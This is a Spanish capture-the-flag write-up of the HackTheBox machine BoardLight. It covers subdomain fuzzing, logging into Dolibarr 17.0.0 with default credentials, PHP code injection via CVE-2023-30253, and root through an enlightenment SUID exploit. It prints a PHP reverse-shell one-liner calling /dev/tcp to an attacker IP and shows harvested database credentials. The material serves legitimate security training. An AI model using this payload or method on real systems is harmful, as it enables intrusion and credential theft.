

## Spoiler
---

<style>
  .spoiler-toggle {
    position: absolute;
    opacity: 0;
    pointer-events: none;
  }

  .spoiler-text {
    cursor: pointer;
    filter: blur(6px);
    opacity: 0.35;
    transition: filter 0.2s ease, opacity 0.2s ease;
  }

  .spoiler-toggle:checked + .spoiler-text {
    filter: none;
    opacity: 1;
    user-select: text;
  }
</style>

Hint 1:
<input class="spoiler-toggle" type="checkbox" id="step-1">
<label class="spoiler-text" for="step-1">
  Fuzzing de directorios, fuzzing de subdominios siempre es algo a verificar
</label>

Hint 2:
<input class="spoiler-toggle" type="checkbox" id="step-2">
<label class="spoiler-text" for="step-2">
  Los archivos de configuración suelen tener información importante, incluso contraseñas
</label>

Hint 3:
<input class="spoiler-toggle" type="checkbox" id="step-3">
<label class="spoiler-text" for="step-3">
  SUID es algo que siempre funciona no?...
</label>

## Writeupp
---

### Reconocimiento

Primero se realizará el escaneo de puertos y servicios de la máquina utilizando la herramienta `nmap`

```sh
sudo nmap -sS -Pn -n --min-rate 5000 10.129.65.133 -p- -sV -vvv -oN port-scan
```

```ruby
Nmap scan report for 10.129.65.133
Host is up, received user-set (0.10s latency).
Scanned at 2026-09-05 19:56:42 EDT for 21s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Del escaneo se obtienen 2 puertos abiertos, iniciaremos el análisis usando el puerto 80 (HTTP) como punto de partida.



La web que se ejecuta en el puerto 80 mantiene una estructura simple, puede que una página meramente informativa, vemos los links del menú superior de la web podemos ver que utiliza recursos con extenxión *.php*, lo podemos observar tambien en el código fuente



Además, se puede ver al final que nos arroja el nombre del dominio de la web **board.htb**



Utilizaremos esto para indexar el nombre de la máquina con su ip dentro del archivo */etc/hosts*

```sh
❯ cat /etc/hosts

(...)
# HackTheBox
10.129.65.133 board.htb
```

Ahora verificaremos subdominios utilizando como base el nombre *board.htb* y utilizandop la herramienta `ffuf`

```sh
ffuf -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://board.htb/ -H 'Host: FUZZ.board.htb' -t 200 -fs 15949
```



La herramienta descubrió que dispone del subdominio *crm*, esto lo colocaremos tambien en nuestro archivo */etc/hosts*

```sh
❯ cat /etc/hosts

(...)
# HackTheBox
10.129.65.133 board.htb crm.board.htb
```

Ahora lo colocaremos en el navegador para visualizar lo que nos ofrece ese subdominio



El subdominio *crm* muestra un login *Dolibarr 17.0.0*, buscaremos si hay un exploit disponible en dicha versión por medio de una simple búsqueda en google



La búsqueda nos envió a un repositorio en github  el cual tiene lo que parece ser la poc de la vulnerawbilidad

https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253

Simplemente podríamos ejecutar el exploit y obtener una sesión dentro del sistema... Pero intenemos buscar un poco más de info sobre esta vulnerabilidad a ver si lo podemos replicar de manera sencilla

## Acceso Inicial

Lo que nos dice la descripción de la vuln según NIST es:

> [!quote]
> Dolibarr before 17.0.1 allows remote code execution by an authenticated user via an uppercase manipulation: <?PHP instead of <?php in injected data.

Esa palabra "authenticated" significa que tendríamos que disponer de un usuario, pero en sí no tenemos eso :c, nos dice tambien que es un RCE dentro de código php, por lo que con esta descripción tendríamos lo siguiente:

- Debe de ser un usuario autenticado
- El RCE es dentro de código php, puede que un system("<reverse shell>")

No tenemos usuario, pero podría ser que se dispongan de usuarios por defecto (mala práctica, pero a veces pasa), si usamos la credencial **admin:admin** en el login de Dolibarr notaremos que tenemos acceso :)



Dice "Access denied", pero eso no quita que pudieramos autenticarnos, en todo caso solo nos hubieramos quedado en el login de no tener acceso, entonces disponemos de un usuario, bien.

Ahora falta la parte en donde tenemos que inyectar código php, para ello disponemos del siguiente post que nos servirá como guía

https://www.tinextacyber.com/security-advisory-dolibarr-17-0-0-php-code-injection-cve-2023-30253/

Al parecer el culpable es la sección de *Websites*, en ella podemos crear "webs", intentaremos crear una



Ahora tendremos que crear una página para esa web, para ello nos dirigimos a la sección de "Pages"







La página que creamos solo es un simple test, la vulnerabilidad radica  en que podemos inyectar código php y este se ejecuta en el servidor, para realizar una prueba de esto nos iremos a la sección "Edit HTML Source"



Colocaremos un php simple para verificar si existe la vulneraabilidad



Luego le damos a guardar



Al momento de guardar nos arroja una advertencia



Esto es esperado ya que el propio post nos indica que para evitar esa advertencia simplemente colocamos "PHP" en vez de "php", simple juego de palabras



Esta vez al guardarlo obtenemos un mensaje exitoso



Ahora le daremos click en el botón de los binoculares para poder observar la web





Notamos que se ha ejecutado, ahora ingresaremos una reverse shell simple dentro del código PHP para obtener una sesión

```php
<?PHP system("bash -c 'sh -i >& /dev/tcp/10.10.15.231/4444 0>&1'");?>
```



Antes de guardar creamos un listener con  `nc` en el puerto 4444  para recibir la conexión, luego de darle a "save" y luego en el ícono del binocular obtenemos la shell inversa



Una vez dentro del sistema buscaremos archivos de configuración de la web de *crm.board.htb*, notaremos que encontraremos el archivo *conf.php* dentro de la ruta */var/www/html/crm.board.htb/htdocs/conf*

```plaintext
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ cat conf.php
(...)
$dolibarr_main_url_root='http://crm.board.htb';
$dolibarr_main_document_root='/var/www/html/crm.board.htb/htdocs';
$dolibarr_main_url_root_alt='/custom';
$dolibarr_main_document_root_alt='/var/www/html/crm.board.htb/htdocs/custom';
$dolibarr_main_data_root='/var/www/html/crm.board.htb/documents';
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
$dolibarr_main_db_type='mysqli';
$dolibarr_main_db_character_set='utf8';
$dolibarr_main_db_collation='utf8_unicode_ci';
(...)
```

Adicional a esto enumeraremos usuarios del sistema

```sh
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ ls /home
ls /home
larissa
```

Probaremos si la password encontrada pertenece al usuario *larissa*



## Escalamiento de privilegios

Para escalar privilegios verificaremos permisos SUID por medio del siguiente comando

```sh
find / -perm -4000 -ls 2>/dev/null
```



Notamos algunos SUID inusuales, veremos la versión de *enlightenment* y verificaremos si dispone de alguna vulnerabilidad conocida

```sh
enlightenment --version
```



*enlightenment 0.23.1* es vulnerable a CVE-2022-37706 el cual permite un LPE (Local Privilege Escalation), para aprovecharnos de esto utilizaremos el siguiente repositorio de github

https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit

Al ejecutar el archivo *exploit.sh* del repositorio dentro de la máquina víctima podemos obtener una sesión como root




